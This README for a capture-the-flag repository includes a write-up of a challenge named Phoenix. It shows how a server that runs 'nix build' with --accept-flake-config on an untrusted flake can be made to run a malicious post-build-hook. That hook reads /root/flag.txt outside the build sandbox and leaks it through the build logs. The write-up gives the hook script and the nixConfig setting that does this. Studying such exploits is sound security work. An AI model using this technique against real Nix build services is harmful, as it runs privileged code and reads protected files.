

# flx
fake nix flake for a ctf

Firstblood.

---

writeup:

### Phoenix — WHFD Fall 2025

The vulnerability is caused by the server running:

```bash
nix build <attacker-controlled-flake> --accept-flake-config --print-build-logs
```

An attacker-controlled `flake.nix` can therefore supply a malicious `nixConfig.post-build-hook`.
The hook executable is built as a deterministic Nix store path:

```nix
hook = pkgs.writeShellScript "phoenix-hook" ''
  IFS= read -r FLAG < /root/flag.txt
  printf 'PHOENIX_FLAG=%s\n' "$FLAG"
'';
```

After building the hook once, its store path was:

```text
/nix/store/XXXXXXXXXXXXXXXXXXXXXXx-phoenix-hook
```

The malicious flake then sets:

```nix
nixConfig = {
  post-build-hook =
    "/nix/store/XXXXXXXXXXXXXXXXXXXXXXx-phoenix-hook";
};
```

Because Phoenix accepts flake configuration, Nix executes this hook after the build. The hook runs outside the normal build sandbox with sufficient privileges to read `/root/flag.txt`. Its output is exposed through `--print-build-logs`.

The resulting output revealed:

```text
PHOENIX_FLAG=itu[redacted]
```

